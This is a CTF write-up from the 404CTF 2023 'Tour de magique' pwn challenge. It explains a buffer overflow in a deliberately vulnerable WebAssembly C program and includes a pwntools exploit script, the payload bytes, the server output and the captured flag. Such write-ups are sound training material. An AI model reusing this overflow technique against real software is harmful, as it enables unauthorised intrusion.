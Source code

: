 ```yaml
---
title: CTFs | 404CTF2023 | PWN | Tour De Magique
author: Kaiba_404
date: 2023-06-05
categories: [CTFs, 404CTF2023, PWN]
tags: [CTF, 404CTF2023, pwn]
permalink: /CTFs/404CTF2023/pwn/tourdemagique
---
```



# Tour de magique

![tourde_magie](https://github.com/CongKhaiNGUYEN/CTF/assets/61443497/fe2455b8-6f8a-4509-85bc-d5c7b5805864)

We can download the zip file [tour-de-magie.zip](https://github.com/CongKhaiNGUYEN/congkhainguyen.github.io/tree/main/_posts/CTFs/404CTF2023/pwn/files/tour-de-magie.zip) from the challenge. 


After unzipping the downloaded file, it appears that the files provided are intended for running WebAssembly code. The main code is stored in the `main.c` file. To test the program, we can use the command `wasmtime main.wasm` in the terminal. This command executes the WebAssembly module main.wasm using the wasmtime runtime environment. This way, we can run and observe the behavior of the WebAssembly program.

> `WebAssembly` is a new type of code that can be run in modern web browsers — it is a low-level assembly-like language with a compact binary format that runs with near-native performance and provides languages such as `C/C++`,`C#` and `Rust` with a compilation target so that they can run on the web. It is also designed to run alongside `JavaScript`, allowing both to work together.
{: .prompt-info}

After analyzing the code, I realize that there is a simple Buffer Overflow (BOF) vulnerability. From this information, I can construct a payload to exploit the vulnerability and retrieve the flag.

**main.c**

```c
#include<stdlib.h>
#include<stdio.h>

int main() {
    int* check = malloc(sizeof(int));
    *check = 0xcb0fcb0f;
    puts("Alors, t'es un magicien ?");
    char input[20];
    fgets(input, 200, stdin);
    
	if(*check == 0xcb0fcb0f) {
		puts("Apparemment non...");
		exit(0);
	}
    if(*check != 0xcb0fcb0f && *check != 0x50bada55) {
		puts("Pas mal, mais il en faut plus pour m'impressionner !");
		exit(0);
	}
	if(*check == 0x50bada55) {
		puts("Wow ! Respect ! Quelles paroles enchantantes ! Voilà ta récompense...");
		FILE* f = fopen("flag.txt", "r");
		if(f == NULL) {
			puts("Erreur lors de l'ouverture du flag, contactez un administrateur !");
			exit(1);
		}
		char c;
		while((c = fgetc(f)) != -1) {
			putchar(c);
		}
		fclose(f);
	}
}
```

From the source code, we can see that:

The size of `input` is 20, but `fgets` permits an entry of 200 characters. Therefore, we can make a BOF (Buffer-Overflows) here. We see that `*check` is declared before `input`, so we exploit this BOF to overwrite the desired value to *check.

## Create the payload:

Our goal is to modify the value of `*check` to `0x50bada55` to get the flag.

Since it takes 21 characters to generate a BOF, I will try the following

![21A_wasm](https://github.com/CongKhaiNGUYEN/CTF/assets/61443497/64f64d6b-39bc-4b33-b9d7-ea357e29611a)

It is clear that 21 is not enough for us to reach the value of *check. So we will keep adding A until we get the following result

![23A_wasm](https://github.com/CongKhaiNGUYEN/CTF/assets/61443497/433bae79-951e-4722-87e5-5ad465b64d6a)

Then replace the last 4 A's with the letter B and see the result

![23A_B](https://github.com/CongKhaiNGUYEN/CTF/assets/61443497/43d1a4ca-4082-4ca6-bda5-5e0f06d62c17)

Pay attention to the last line `42414141`, `42` is the ascii value of character `B` and `41` is for character `A`. It seems that the `17-20th` characters in the 23 characters string will overwrite the value of the variable *check.

As a result, the payload can be constructed as follows:

`payload = b'A' * 16 + b'\x55\xda\xba\x50' + b'AAA'`

Here is my exploitation code:

```python
from pwn import *

# p = process(["./wasmtime","main.wasm"])
p = remote("challenges.404ctf.fr",30274)


p.recvuntil(b'magicien ?')
p.sendline(b'A'*16+p32(0x50bada55)+b'AAA')

print(p.recvall().decode())
```

```shell
$ python3 exploit.py 
[+] Opening connection to challenges.404ctf.fr on port 30274: Done
[+] Receiving all data: Done (119B)
[*] Closed connection to challenges.404ctf.fr port 30274

Wow ! Respect ! Quelles paroles enchantantes ! Voilà ta récompense...
404CTF{W0w_St4Ck_3cR4s3_l4_H34P_Qu3LL3_M4G13}
```

**Flag:** `404CTF{W0w_St4Ck_3cR4s3_l4_H34P_Qu3LL3_M4G13}`